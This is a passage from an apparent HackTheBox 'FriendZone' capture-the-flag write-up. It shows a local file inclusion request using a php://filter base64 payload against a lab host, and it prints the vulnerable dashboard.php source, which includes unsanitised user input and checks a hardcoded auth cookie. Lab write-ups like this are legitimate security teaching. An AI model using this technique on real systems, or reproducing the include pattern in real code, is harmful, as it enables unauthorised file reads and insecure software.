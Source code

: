 After logging in I am asked to go to `dashboard.php`.

![](/assets/images/htb-writeup-friendzone/admin_login_successful.png)

The dashboard page seems to be some application that deals with images, but it's not really clear what it does except take an image name as a parameter and a pagename.

![](/assets/images/htb-writeup-friendzone/dashboard.png)

If I try the parameters displayed on the page I get:

![](/assets/images/htb-writeup-friendzone/dashboard_params.png)

The image is linked to `/images`, but none of the files I tried to upload from the previous upload page are found in that directory.

![](/assets/images/htb-writeup-friendzone/images.png)

There's an LFI in the `pagename` parameter and I can use a PHP base64 encode filter to read files:

Request: `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=pagename=php://filter/convert.base64-encode/resource=dashboard`

![](/assets/images/htb-writeup-friendzone/dashboard_lfi.png)

The base64 encoded text is the source code for `dashboard.php`:

```php
<?php

//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];

if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
 echo "<br><br><br>";

echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";

if(!isset($_GET["image_id"])){
  echo "<br><br>";
  echo "<center><p>image_name param is missed !</p></center>";
  echo "<center><p>please enter it to show the image</p></center>";
  echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
 }else{
 $image = $_GET["image_id"];
 echo "<center><img src='images/$image'></center>";

 echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
 include($_GET["pagename"].".php");
 //echo $_GET["pagename"];
 }
}else{
echo "<center><p>You can't see the content ! , please login !</center></p>";
}
?>
```
